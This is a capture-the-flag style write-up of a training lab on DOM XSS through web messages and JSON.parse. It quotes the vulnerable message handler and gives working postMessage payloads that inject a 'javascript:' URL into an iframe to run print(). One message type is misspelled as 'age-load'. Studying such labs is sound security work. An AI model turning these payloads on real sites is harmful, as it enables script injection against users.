

# DOM XSS using web messages and JSON.parse
# Objective
This lab uses web messaging and parses the message as JSON. \
To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function. 

# Solution
## Analysis
Website has `script` that creates `eventListener`.

||
|:--:| 
| *Added event listener - Web messages* |

Vulnerable code:
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

## Exploitation
The script above:

1. Creates an iframe and appends it to the page when the first message is received.
2. Parses the incoming message (expects it to be JSON).
3. Handles different message types:
- `age-load` - scrolls the iframe into view.
- `load-channel` - sets the iframe’s src to the provided url.
- `player-height-changed` - resizes the iframe to the given width and height.

||
|:--:| 
| *Testing basic XSS - provided payload was executed* |
||
| *Exploit server configuration* |

Test payload:
```js
window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert('xss')\"}", "*");
```

Final payload:
```js
<iframe src="https://0adf000903cf3547813a6c4300500073.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

